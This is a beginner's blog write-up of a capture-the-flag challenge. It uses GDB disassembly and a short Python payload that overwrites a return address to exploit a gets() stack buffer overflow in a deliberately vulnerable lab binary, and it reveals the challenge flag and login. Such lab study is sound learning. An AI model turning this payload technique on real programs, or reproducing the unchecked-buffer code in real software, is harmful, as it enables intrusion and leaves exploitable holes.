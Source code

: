 ```yaml
---
title: "Buffer Overflow: Favorite Color CTF"
date: 2019-12-09
author: CPunch
tags: ["reverse-engineering", "python", "ctf"]
---
```


Hey! So I recently made an account on [ctflearn.com](https://ctflearn.com) which is this great site that teaches you how to do CTFs and gives you practice ones you can use to learn! I've always wanted to try out a CTF, so I quickly found a fairly simple one in the binary section and tried it out. I picked one with a lot of solves because I am a complete noob haha. Let's take a look!


Here's a link to the CTF I picked: [https://ctflearn.com/challenge/391](https://ctflearn.com/challenge/391), it reads:

```
What's your favorite color? Would you like to share with me? Run the command: ssh color@104.131.79.111 -p 1001 (pw: guest) to tell me!
```

![](ssh.png)

Ah, okay so it gives us a binary "color", and the source "color.c". We also have flag.txt and the Makefile for color. We don't have the permissions to read flag.txt yet. So, lets run the binary and see what happens!

![](run-color.png)

Hmm, okay lets look at the makefile...

```makefile
prob = color

edit: $(prob).o
	cc -m32 $(prob).o -o $(prob)
	rm $(prob).o

install:
	@id=`id -u`; \
	if [ $$id != 0 ] ; \
	then \
		echo \*\*\* Must be root. \*\*\*; \
		exit 1; \
	fi
	
	useradd -m $(prob) 
	echo $(prob):guest | chpasswd
	useradd $(prob)_pwn
	
	cp * /home/$(prob)
	
	@echo; \
	read -p "Input flag: " flag; \
	echo $$flag > /home/$(prob)/flag.txt
	
	chown -R root:root /home/$(prob)
	chmod -R 444 /home/$(prob)
	chmod 555 /home/$(prob)
	chown root:$(prob)_pwn /home/$(prob)/$(prob)
	chmod 2555 /home/$(prob)/$(prob)
	chown root:$(prob)_pwn /home/$(prob)/flag.txt
	chmod 440 /home/$(prob)/flag.txt
  
$(prob).o: $(prob).c
	cc -c -m32 -fno-stack-protector $(prob).c
```

Woah, okay that is a huge hint! Checkout that -fno-stack-protector flag! If we look up what that no-protector flag does, this [stack-overflow answer](https://stackoverflow.com/questions/10712972/what-is-the-use-of-fno-stack-protector) reads

> **"If you compile with -fstack-protector, then there will be a little more space allocated on the stack and a little more overhead on entry to and return from a function while the code sets up the checks and then actually checks whether you've overwritten the stack while in the function."**

So they purposely disabled the stack protector in this binary for us to exploit! So now that we know this is a buffer overflow attack, lets take a look at color.c: 

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];
    
    printf("Enter your favorite color: ");
    gets(buf);
    
    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }
    
    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    
    //disable buffering.
    setbuf(stdout, NULL);
    
    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
```

Okay, so it looks like when vuln() returns 1, it'll open a shell under a user that has permissions to read flag.txt.. but wait, hold on, take a look at vuln().. It's using gets()! This is a classic example of a buffer overflow. gets() is notorious for being unsafe, geeksforgeeks.org explains why perfectly!

![](gets-bad.png)

So, when we call gets() with a character array of 32 characters, what happens if we give it more than 32 characters? Let's find out! So I compiled color.c (I removed the setresuid and setresgid calls)

![](oops.png)

GCC actually warns us that gets() is dangerous, how nice of them! `char buff[32];` creates a limited character array, and gets() puts a user-supplied string (which can be bigger than 32 characters) in the buf address, smashing the stack! And look! It caught our smashed stack! Anyways, back to the OG color.c. Let's debug the binary with GDB. If you're unfamiliar with GDB it's an EXTREMELY powerful command-line tool that lets you debug and disassemble programs in real time!

![](gdb.png)

Okay and now lets disassemble our vuln() subroutine and compare the disassembly to our C source! I ran "disassemble vuln" and got this disassembly:

```
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x0804858b <+0>:    push   %ebp
   0x0804858c <+1>:    mov    %esp,%ebp
   0x0804858e <+3>:    sub    $0x38,%esp
   0x08048591 <+6>:    sub    $0xc,%esp
   0x08048594 <+9>:    push   $0x8048730
   0x08048599 <+14>:    call   0x8048410 <printf@plt>
   0x0804859e <+19>:    add    $0x10,%esp
   0x080485a1 <+22>:    sub    $0xc,%esp
   0x080485a4 <+25>:    lea    -0x30(%ebp),%eax
   0x080485a7 <+28>:    push   %eax
   0x080485a8 <+29>:    call   0x8048420 <gets@plt>
   0x080485ad <+34>:    add    $0x10,%esp
   0x080485b0 <+37>:    movl   $0x0,-0xc(%ebp)
   0x080485b7 <+44>:    movl   $0x0,-0x10(%ebp)
   0x080485be <+51>:    jmp    0x80485cb <vuln+64>
   0x080485c0 <+53>:    movl   $0x0,-0xc(%ebp)
   0x080485c7 <+60>:    addl   $0x1,-0x10(%ebp)
   0x080485cb <+64>:    lea    -0x30(%ebp),%edx
   0x080485ce <+67>:    mov    -0x10(%ebp),%eax
   0x080485d1 <+70>:    add    %edx,%eax
   0x080485d3 <+72>:    movzbl (%eax),%eax
   0x080485d6 <+75>:    test   %al,%al
   0x080485d8 <+77>:    jne    0x80485c0 <vuln+53>
   0x080485da <+79>:    mov    -0xc(%ebp),%eax
   0x080485dd <+82>:    leave  
   0x080485de <+83>:    ret
```

Okay, ignore everything else except our call to gets(), because thats the real vulnerability.

```
   0x080485a4 <+25>:    lea    -0x30(%ebp),%eax
   0x080485a7 <+28>:    push   %eax
   0x080485a8 <+29>:    call   0x8048420 <gets@plt>
```

These 3 instructions are the equivalent of our `gets(buf);` call. I'll add some comments so you can better understand what each instruction does.

```
   lea    -0x30(%ebp),%eax -- loads address of buf[] into the eax register (buf is a local variable in our stackframe!) at address of -0x30 from ebp (or stack base pointer)
   push   %eax -- pushes the address of buf[] onto the stack
   call   0x8048420 <gets@plt> -- calls gets!
```

Now let's look at how the stackframe is setup. Here's a helpful graph I made to help kind of explain how this stack frame actually looks after calling into gets().

![](stackframe.png)
> EBP - Base Stack Pointer, also 0x30 is 48 in decimal

So our plan is pretty simple, make gets() fill the stack with 52 bytes of useless junk, and then our crafted return address. So, when gets() returns, it'll jump to our crafted return value instead! Nice! Okay, but where do we want to jump too? Let's disassemble main and try and find our test after our call to vuln()

```
   0x0804864e <+111>:    call   0x804858b <vuln>
   0x08048653 <+116>:    test   %eax,%eax
   0x08048655 <+118>:    je     0x8048689 <main+170>
   0x08048657 <+120>:    sub    $0xc,%esp
```

Alright so after our call to vuln, it tests if it returns zero, and if so, it'll jump to 0x8048689. So our crafted return value should be 0x08048657 which will skip the check and get us straight into the body of the true branch of that if statement! Alright so let's try crafting our input!

Like I said, first 52 bytes can be anything. The last 4 bytes are what really matters :) I haven't mentioned it yet, but we'll need to know if the system is little endian or big endian. Basically this is just the way that addresses are encoded in instructions, little endian means it's encoded in reverse, big endian means it's encoded normally. We can check by using "lscpu"

![](lscpu.png)

Yeah, so we'll have to reverse the return address in our crafted buffer! Which trust me, is way simpler than it sounds haha. Here's my python script I used to craft the input

```python
# this script crafts input buffer for the favorite color ctf challenge

uselessBuffer = "A" * 48 # can be whatever, doesn't matter
uselessEBP = "B" * 4 # can be whatever, doesn't matter lol
craftedReturn = "\x57\x86\x04\x08" # this is in little-endian format of 0x08048657

print(uselessBuffer + uselessEBP + craftedReturn)
```

The CTF maker was kind and let us create files under a folder in /tmp, so I'll make my script there and pipe the input into ./color

![](make-tmp.png)

Alright so now that that's done all we have to do is to just pipe our crafted input into it!

![](yay.png)

and there we go!! It worked!! "flag{c0lor_0f_0verflow}". Thanks so much for reading! Hopefully I did an okay job explaining stuff haha. This was super fun and I learnt a lot about using GDB and a good refresher on stack frames. I might do more posts about CTFs in the future, but until then cya!